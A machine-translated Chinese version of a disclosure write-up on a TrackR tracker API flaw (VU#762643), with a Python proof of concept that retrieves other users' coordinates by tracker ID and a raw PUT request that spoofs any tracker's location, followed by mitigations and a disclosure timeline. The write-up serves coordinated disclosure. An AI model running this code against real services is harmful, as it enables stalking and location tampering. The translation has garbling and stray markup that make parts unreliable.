


# TrackR 暴露用户的真实坐标(VU#762643)

> 原文：<https://infosecwriteups.com/trackr-users-private-information-exposed-vu-762643-876e67390554?source=collection_archive---------0----------------------->

# TL；速度三角形定位法(dead reckoning)

tracker 是一家开发小型无线追踪器的公司，帮助人们找到他们的东西，如包、钥匙、遥控器、移动设备等。你把追踪器贴在你的东西上，通过供应商的安卓应用程序触发追踪器的蜂鸣器。因此，追踪器使物体有可能被发现。简单来说就是找钥匙。通过蓝牙低能耗实现通信。这篇文章是关于我在 TrackR 应用程序中发现的一个漏洞，它通过暴露用户的真实地理位置来影响用户的隐私。

# TrackR 像素跟踪器

Trackr Pixel 是 TrackR 制造的跟踪器之一，但在这篇文章的范围内，认为 TrackR 跟踪器都是一样的。

以下是 TrackR 像素的外观:



这个小追踪器可以使用自带的微型电池为******供电长达 1 年。跟踪器与移动应用程序 TrackR (Android)配对，无需任何身份验证。它的蓝牙名称为“ *tkr* ”，当设备被按下时(你在中间按下它——它包含一个内部按钮)，android 应用程序会识别信标。然后，设备将与您的移动设备配对。在与设备配对之前，必须创建一个账户，因此需要注册。这里是我们旅行的起点。******

# ****最佳地点****

****TrackR 移动应用程序的核心功能之一是在追踪器丢失的情况下帮助用户找到他们的追踪器。这是由其他用户协作完成的。所有用户通过使用 TrackR 应用程序来跟踪他们自己的设备，他们还可以监控范围内的所有跟踪器。然后，每个用户的应用程序通知服务器找到了什么追踪器，当前坐标是什么。当一个追踪器丢失时，所有用户都会不知不觉地帮助找到它。****

****每个跟踪器都有一个跟踪 ID。跟踪器的 ID 由“0000”+BluetoothAddressHexReversed 构成。使用 web 代理，我能够理解 API 调用，然后玩了一会儿。我发现我可以在没有任何授权的情况下追踪任何追踪者。我需要的是跟踪器的蓝牙设备地址。这很容易，因为跟踪器设备每隔几秒钟(当不与任何客户端相关联时)就广告自己以便可见，从而暴露其 BDADDR。当 BDADDR 已知时，可以使用它来跟踪用户。****

# ****私人信息暴露****

****拥有 TrackR 追踪器(例如 TrackR 的 Pixel 产品)的用户通常将追踪器附在他们的钥匙上。通常，按键与移动设备放在相同的位置。因此，移动设备知道跟踪器的位置，并且总是向服务器报告跟踪器的当前位置。当用户将移动设备放在不同的地方时，例如当用户将移动设备留在/忘记在家里时，其他用户向服务器报告该用户的位置。不，这不是一个错误，这是一个功能。正如我之前提到的，追踪器提供了一个功能，可以帮助追踪器所有者找到他们被盗的物品。安装了 TrackR 移动应用程序的其他用户报告在该区域发现的其他 TrackR 设备的坐标。TrackR 使用服务在后台运行，因此应用程序不需要运行。再者，你是否随身携带手机并不重要，因为其他人，不情愿地，会向服务器报告你的位置，而通过本文描述的漏洞，服务器会将用户的私人信息，即物理位置，暴露给可能的攻击者。****

****此外，该追踪器可能会被利用网络钓鱼技术恶意使用。这可能是可行的，通过赠送跟踪器作为免费礼物，然后通过使用其跟踪 ID(在赠送跟踪器之前您已经保存了该 ID)来继续跟踪设备。TrackR 没有禁止多个用户将同一个设备连接到他们的帐户。这个过程很难做到，因为这种设备可能会作为二手产品出售。****

****通过向 TrackR 应用程序易受攻击的 API 发送巧尽心思构建的 HTTPS POST 和 GET 请求，**经过身份验证的**攻击者只需使用 tracker ID 就可以检索私人敏感数据，如其他用户的坐标。追踪器 ID 是追踪器的反向 mac 地址，任何扫描蓝牙设备的人都可以看到(甚至可以通过使用 android 手机来完成)。****

****要创建跟踪者 ID 或附加到跟踪者 ID(如果已经创建)，使用以下 URL(**POST**):****

****https://platform.thetrackr.com/rest/item?usertoken=…****

```
**payload = '{"customName":"tracker_for_my_keys","type":"Bluetooth","trackerId":"00XXXX-XXXXXXXX","icon":"trackr","timeElapsedSync":304}'
	r = requests.post("https://platform.thetrackr.com/rest/item?usertoken=" + userToken, headers = headers, data = payload)**
```

****获取所有自己的设备(包括刚刚连接的新设备)— ( **GET** ):****

****https://platform.thetrackr.com/rest/item?usertoken=…****

```
**r = requests.get("https://platform.thetrackr.com/rest/item?usertoken=" + userToken, headers = headers_get)
	data = json.loads(r.text)**
```

******注**:令牌在登录过程中生成，由服务器返回。****

****GET /rest/user？email = your mail % 40 domain . com & password = your pass HTTP/1.1****

********

******概念验证******

****请注意坐标被更改了——也没有授权。****

```
**import requests, json, random, time

userToken = "your token..."

azaz = list(set("zyxwvutsrqponmlkjihgfedcbabcdefghijklmnopqrstuvwxyz"))
current_num = 22900

headers_push = {"User-Agent" : "Dalvik/2.1.0 (Linux; U; Android 6.0; Nexus 5X Build/MDA89E)",
            "Accept-Encoding" : "gzip, deflate",
            "Content-Type":"application/json"}

headers_del = {"Content-Type":"application/x-www-form-urlencoded",
            "User-Agent" : "Dalvik/2.1.0 (Linux; U; Android 6.0; Nexus 5X Build/MDA89E)",
            "Accept-Encoding" : "gzip, deflate",
            "Content-Length":"0"}

headers_get = {"User-Agent" : "Dalvik/2.1.0 (Linux; U; Android 6.0; Nexus 5X Build/MDA89E)",
            "Accept-Encoding" : "gzip, deflate",
            "Content-Type":"application/json"}

def pickAName():
    n = str()
    for i in range(6):
        n += azaz[random.randint(0,len(azaz)-1)]
    return n

# Only the owner of the device should be able to attach to the device tracker
def createDevice(trackerId): # whatever is created, when pushed later conflict error is returned, despite the deletion
    payload = '{"customName":"'+pickAName()+'","type":"Bluetooth","trackerId":"'+trackerId+'","icon":"trackr","timeElapsedSync":'+str(random.randint(100,1000))+'}'
    r = requests.post("https://platform.thetrackr.com/rest/item?usertoken=" + userToken, headers = headers_push, data = payload)
    if r.status_code == 201: print trackerId, "CREATED"
    elif r.status_code == 200: print trackerId, "Attached"
    else: print trackerId, "Create - Unknown Reason", r.status_code

    if r.status_code == 201 or r.status_code == 200: return 200
    else: return r.status_code

def pushDevice(trackerId): # will always return of Not Found if not created before by the user
    payload = '{"customName":"'+pickAName()+'","type":"Bluetooth","trackerId":"'+trackerId+'","icon":"trackr","lost":false,"timeElapsedSync":'+str(random.randint(100,1000))+'}'
    url = "https://platform.thetrackr.com/rest/item/"+trackerId+"?usertoken=" + userToken

    r = requests.put(url, data = payload, headers = headers_push)
    if r.status_code == 404:
        print trackerId, "Not Found"

    rtxt = r.text
    print trackerId, r.status_code, rtxt
    return r.status_code

# Returning all devices along with their coordinates
def lookupDevice(trackerId):
    r = requests.get("https://platform.thetrackr.com/rest/item?usertoken=" + userToken, headers = headers_get)
    data = json.loads(r.text)
    print "Looking for... ",trackerId, r.status_code
    for it in data:
        if it.has_key("lastKnownLocation"):
            if it["lastKnownLocation"].has_key("latitude"):
                print it["lastKnownLocation"]["latitude"], it["lastKnownLocation"]["longitude"]

def popDevice(trackerId):
    r = requests.delete("https://platform.thetrackr.com/rest/item/"+trackerId+"?usertoken="+userToken+"&timeElapsedSync=0", headers = headers_del)
    print "Deleting Tracker", trackerId, r.status_code

def spoofAddress(trackerId): # Vulnerable to Location Spoofing
	print "Spoofing Target Coordinates" # Push Token is not always necessary
	payload = '[{"trackerId":"'+trackerId+'","battery":-1,"lastKnownLocation":{"latitude":14.31,"longitude":22.38,"accuracy":57.10200044036810},"connected":false,"clientTimeDiff":1132}]'
	r = requests.put("https://platform.thetrackr.com/rest/tracker/batch/secure/lzFobKi7iWUd1cRy05KJff4l3KCNESgsAHWDXYIl", headers = headers_get, data = payload)
	print r.text, r.status_code

# Track Users
tracker_id = "0000XXXX-XXXXXX"
print "Finding Tracker... ", tracker_id
if createDevice(tracker_id) == 200:
   lookupDevice(tracker_id)
    popDevice(tracker_id)**
```

****为了更全面地了解服务器能够检索的信息类型，提供了以下信息:****

*   ****LastUpdated:所以攻击者知道数据有多新****
*   ****自定义名称:当我们创建/附加到追踪器 ID 时，它会被我们的自定义名称替换，因此对我们来说没有任何意义****
*   ****最后已知的位置:坐标以及这些坐标有多精确(如果你问我，我会说非常精确)****
*   ****按类型查看:谁报告了最后一次更新(人群或用户)****
*   ****丢失:如果报失****
*   ****电池电量:跟踪器电池电量的百分比****
*   ****类型:蓝牙——我不知道 TrackR 的所有产品，但似乎大多数追踪器都是使用 BLE 技术开发的****

```
**[
    {
        "lastKnownLocation": {
            "latitude": 30.123455, 
            "lastSeenBy": {
                "seenByType": "CROWD_LOCATE_USER", 
                "name": ""
            }, 
            "longitude": 30.112232, 
            "accuracy": 16
        }, 
        "ownershipOrder": 0, 
        "lastUpdated": 1581871440781, 
        "lost": false, 
        "lastTimeSeenDiff": 33670, 
        "customName": "mynew", 
        "ownersEmail": "MYMAILXXXX@gmail.com", 
        "timeUpdatedDiff": 685496, 
        "id": 5894866519982080, 
        "trackerId": "00005150-52d48gee", 
        "groupItem": false, 
        "batteryOrderUrl": "https://store.thetrackr.com/battery-replenishment-program?trackerId=9cac263f593abfb2&discount=BRP&token=d8005225b33088cf", 
        "batteryLevel": 5, 
        "type": "Bluetooth", 
        "lastKnownPlaces": [], 
        "lastTimeSeen": "Sun Feb 16 16:54:52 UTC 2020", 
        "icon": "trackr"
    }
]**
```

# ****隐私信息暴露缓解****

****减轻这种攻击并不容易，因为它还涉及到硬件的变化。整个过程必须改变，因为跟踪器在配对过程中不使用任何认证机制。追踪器应使用密码 PIN 认证，PIN 应贴在标签上，以便所有者成为唯一有权连接和修改 TrackR 追踪器设备的人。跟踪器 ID 应是随机的，大小超过 10 个字节(16 个字节就足够了)，并且应仅发送给经过验证的用户(使用 PIN 进行验证)。为了让用户检索追踪器 ID，他应该知道密码。这样，低功耗的全部含义得以保留，并且设备将得到保护。如果 TrackR 愿意让它的设备作为二手货出售，它必须允许在认证用户愿意时随机生成追踪器 ID。****

# ****访问未经认证的报警特征****

****跟踪器设备没有授权，因此任何潜在的恶意用户都可以连接到它并触发它的蜂鸣器(警报)。当攻击者距离设备很近时(约 10 米)，这种情况就可能发生。毫无疑问，追踪者需要授权。更改闹钟很简单，不复杂，甚至可以通过使用现成的蓝牙应用程序来完成(它非常简单，你可以在 10 分钟内开发自己的应用程序来完成)。“哔哔声”是蓝牙签名一个明确定义的特征。触发警报的值也由标准明确定义。****

****供应商通过正确定义报警特征做了很好的工作，但为了使设备更加安全，还需要授权。****

# ****目标位置欺骗****

****最棒的是，任何人，任何非注册用户，都可以在任何时间改变任何追踪器设备的当前位置。****

```
**PUT /rest/tracker/batch/secure/lzFobKi7iWUd1cRy05KJff4l3KCNESgsAHWDXYIl HTTP/1.1
Content-Type: application/json
User-Agent: Dalvik/2.1.0 (Linux; U; Android 6.0; Nexus 5X Build/MDA89E)
Host: platform.thetrackr.com
Connection: close
Accept-Encoding: gzip, deflate
Content-Length: 183

[{"trackerId":"00005974-XXXXXXXX","battery":51,"lastKnownLocation":{"latitude":39.1234567,"longitude":30.112233,"accuracy":16.3439998626709},"connected":false,"clientTimeDiff":31031}]**
```

****发现改变任何跟踪器的坐标所需要的唯一事情是对散列路径的单个 HTTPS PUT 请求。我猜这就是通过默默无闻获得的安全感。“秘密”URL 允许通过使用未经认证的访问来提交信息，并且应该在 2020 年被避免。****

# ****位置欺骗缓解****

****这也是一个困难的任务，因为任何用户都应该能够提交坐标和所有可见的跟踪 id 列表。此时，服务器无法区分合法请求和非法请求。供应商应采用上述推荐的缓解措施。通过这种方式，服务器将知道所有由它们真正的所有者注册的 TrackR 设备，并且它也将知道它的随机 ID。然后，通过这种方式，它将能够区分真正的追踪器 id 和假的。为了加强暴力攻击，供应商应使用比当前使用的 6 个字节更大的随机数。此外，供应商应验证所有位置放置请求。****

# ****影响****

****TrackR 成立于 2009 年。考虑到公司的规模和这样一个产品的复杂性，这个漏洞是多么的严重，这是非常有趣的。****

> ****截至 2017 年 8 月，已售出超过 500 万台 TrackR 设备****
> 
> ****维基百科(一个基于 wiki 技术的多语言的百科全书协作计划ˌ也是一部用不同语言写成的网络百科全书ˌ 其目标及宗旨是为全人类提供自由的百科全书)ˌ开放性的百科全书****

****据 Google play 报道，约有 2 万用户安装了该应用程序，并有 100 万次下载，但其他平台上也存在其他应用程序，也存在同样易受攻击的 API。****

# ****漏洞披露时间表****

*   ****2020 年 2 月 15 日—发现漏洞****
*   ****2020 年 2 月 19 日—通过支持电子邮件通知供应商跟踪者****
*   ****2020 年 2 月 28 日—通过支持电子邮件通知供应商跟踪者****
*   ****2020 年 2 月 28 日—通过 Adero 通知供应商 Adero(可能是母公司？)****
*   ****2020 年 4 月 3 日—通过第二个发送电子邮件地址通知供应商跟踪者****
*   ****17/04/2020 — Cert 协调中心提交****
*   ****25/04/2020 — Cert CC 回复了供应商的联系信息****
*   ****2020 年 6 月 5 日—尝试多次联系他们(国际电话不免费)****
*   ****2020 年 5 月 6 日—出版(VU#762643)****